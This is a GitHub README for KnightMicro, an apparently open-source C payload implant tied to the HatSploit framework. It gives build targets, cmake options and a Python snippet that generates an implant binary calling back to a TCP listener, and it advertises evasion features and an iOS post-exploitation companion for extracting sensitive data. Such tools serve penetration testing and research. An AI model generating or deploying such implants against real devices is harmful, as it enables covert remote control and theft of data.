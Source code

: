 # Friendly like a Pony

```shell
Knight Cavalry      /
               ,.. /
             ,'   ';
  ,,.__    _,' /';  .
 :','  ~~~~    '. '~
:' (   )         )::,
'. '. .=----=..-~  .;'
 '  ;'  ::   ':.  '"
   (:   ':    ;)
    \\   '"  ./
     '"      '"
--------------------
```

**KnightMicro** is an implementation of an advanced payload written in pure C and designed for portability and extensibility.

This repository contains KnightMicro, which is supposed to work on *MacOS*, *Linux*, *Windows* and *iOS*, but can be ported to almost every POSIX system. KnightMicro is optimized to work with or without [HatSploit](https://github.com/EntySec/HatSploit) Framework.

## Features

* Portable C code that can be compiled for a big range of targets.
* Support for *MacOS*, *Linux*, *Windows* and *iOS* targets.
* Small executable with low resource utilization optimized for embedded systems.
* Dynamically Extendable, supports loading plugins (TABs) which extend its functionality.
* Evasion techniques such as process migration and in-memory loading.

## Installing

To install KnightMicro you simply need to install [HatSploit](https://github.com/EntySec/HatSploit) Framework and this will make KnightMicro available automatically.

```python
pip3 install git+https://github.com/EntySec/HatSploit
```

## Building

**Building dependencies:**

```shell
make TARGET=<target>
```

**NOTE:** For *MacOS / iOS* targets you are required to set `SDK` to the desired SDK path before running `make`. For example:

```shell
make TARGET=<target> SDK=<path>
```

You can find list of supported `TARGET` values for different platforms.

<details>
    <summary>Linux</summary><br>
    <code>aarch64-linux-musl</code><br>
    <code>armv5l-linux-musleabi</code><br>
    <code>armv5b-linux-musleabi</code><br>
    <code>i486-linux-musl</code><br>
    <code>x86_64-linux-musl</code><br>
    <code>powerpc-linux-muslsf</code><br>
    <code>powerpc64le-linux-musl</code><br>
    <code>mips-linux-muslsf</code><br>
    <code>mipsel-linux-muslsf</code><br>
    <code>mips64-linux-musl</code><br>
    <code>s390x-linux-musl</code><br>
    <br>
</details>

<details>
    <summary>Windows</summary><br>
    <code>x86_64-w64-mingw32</code><br>
    <code>x86_64-w64-mingw32</code><br>
    <br>
</details>

<details>
    <summary>MacOS / iOS</summary><br>
    <code>arm-iphone-darwin</code><br>
    <code>aarch64-iphone-darwin</code><br>
    <code>i386-apple-darwin</code><br>
    <code>x86_64-apple-darwin</code><br>
    <code>aarch64-apple-darwin</code><br>
    <br>
</details>

**Building sources:**

```shell
cmake -DCMAKE_TOOLCHAIN_FILE=<toolchain> -B build
cmake --build build
```

**NOTE:** For *MacOS / iOS* targets you are required to set `CMAKE_OSX_SYSROOT` to the desired SDK path with `-D`. For example:

```shell
cmake -DCMAKE_TOOLCHAIN_FILE=<toolchain> -DCMAKE_OSX_SYSROOT=<path> -B build
```

**NOTE:** Toolchains are located at `toolchain/cmake/`.

These are other `cmake` build options:

* `MAIN` - Should be `ON` if you want to build a source file to executable.
* `SOURCE` - Custom executable source file (default are in `src/main/`).
* `DEBUG` - Should be `ON` if you want to build KnightMicro in debug mode.
* `BUNDLE` - Build as bundle (macOS specific flag, adds `-bundle`)

## Basic usage

To use KnightMicro and build payloads you should import it to your source.

```python3
from KnightMicro import KnightMicro
from KnightMicro.session import KnightMicroSession
```

* `KnightMicro` - KnightMicro object that is used to generate payload implant.

```python3
KnightMicro = KnightMicro(
    target='aarch64-apple-darwin',
    options={
        'uri': 'tcp://127.0.0.1:8888'
    }
)

with open('payload.exe', 'wb') as f:
    f.write(KnightMicro.to_binary())
```

* `KnightMicroSession` - Wrapper for `HatSploitSession` for KnightMicro, HatSploit should use it with KnightMicro payload. It might also be used without HatSploit as demonstrated in `examples/listener.py`.

## Projects

* [SeaShell](https://github.com/EntySec/SeaShell) Framework - iOS post-exploitation framework that enables you to access the device remotely, control it and extract sensitive information. SeaShell actively uses KnightMicro implant to communicate with iOS.

## Caveats

The code provided in this repository has not yet been prepared for use in a production environment. It can be improved, so any contribution is welcome. You can even experience memory leaks, so we'll be glad to accept every single PR which is fixing a potential issue.

# Thanks To
>- EntySec
